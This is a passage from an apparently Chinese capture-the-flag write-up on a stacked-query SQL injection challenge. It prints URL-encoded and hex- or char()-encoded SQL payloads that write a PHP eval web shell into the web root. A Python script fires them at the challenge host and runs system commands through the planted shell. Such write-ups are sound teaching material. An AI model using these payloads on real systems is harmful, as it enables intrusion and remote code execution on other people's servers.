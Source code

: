 ```php
    create procedure `qq`(out string text(1024), in hex text(1024))
    BEGIN
        SET string = hex;
    END;
    ;#";
echo urlencode($a)."\n";
$b = "1';
    call `qq`(@decoded, 0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460);
    prepare payload from @decoded;
    execute payload;
    ;#";
echo urlencode($b);
?>
```
我们直接读取数据库的flag时会发现 flag 是假的，我们尝试读取 user 。发现我们是 root 用户，于是尝试写马 get os-shell
最后执行的python脚本
```python
import requests
 
url ="http://b93983bb-ecb9-49a9-a072-9f36460ebe13.node1.hackingfor.fun/"
##两个exp用来生成一个cioi.php，密码是cioi
payload1 = "1'%3B%0D%0A%20%20%20%20create%20procedure%20%60qq%60(out%20string%20text(1024),%20in%20hex%20text(1024))%0D%0A%20%20%20%20BEGIN%0D%0A%20%20%20%20%20%20%20%20SET%20string%20%3D%20hex%3B%0D%0A%20%20%20%20END%3B%0D%0A%20%20%20%20%3B%23"
payload2 = "1'%3B%0D%0A%20%20%20%20call%20%60qq%60(%40decoded,%200x73656C65637420273C3F706870206576616C28245F504F53545B2263696F69225D293B203F3E2720696E746F206F757466696C6520222F7661722F7777772F68746D6C2F63696F692E706870223B)%3B%0D%0A%20%20%20%20prepare%20payload%20from%20%40decoded%3B%0D%0A%20%20%20%20execute%20payload%3B%0D%0A%20%20%20%20%3B%23"
 
data = {
 "cioi":"system('cat /fffllaagg');"
}
 
requests.get(url=url+"?inject="+payload1)
requests.get(url=url+"?inject="+payload2)
 
ans = requests.post(url+"cioi.php",data=data)
print(ans.text)
```
![](/bmth_blog/images/pasted-174.png)
运行得到flag
![](/bmth_blog/images/pasted-175.png)
我自己的写文件payload没生效，看到一位web大佬的文章：[UNCTF2020](https://blog.csdn.net/l11III1111/article/details/109707403)，还是我的姿势不太对
```sql
1';PREPARE hacker from concat(char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,49,50,51,93,41,32,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,49,46,112,104,112,39));EXECUTE hacker;
```
python构造语句脚本
```python
a = "select '<?php eval($_POST[123]) ?>' into outfile '/var/www/html/1.php'"
for i in a:
	print(ord(i),end=',')
```
![](/bmth_blog/images/pasted-176.png)
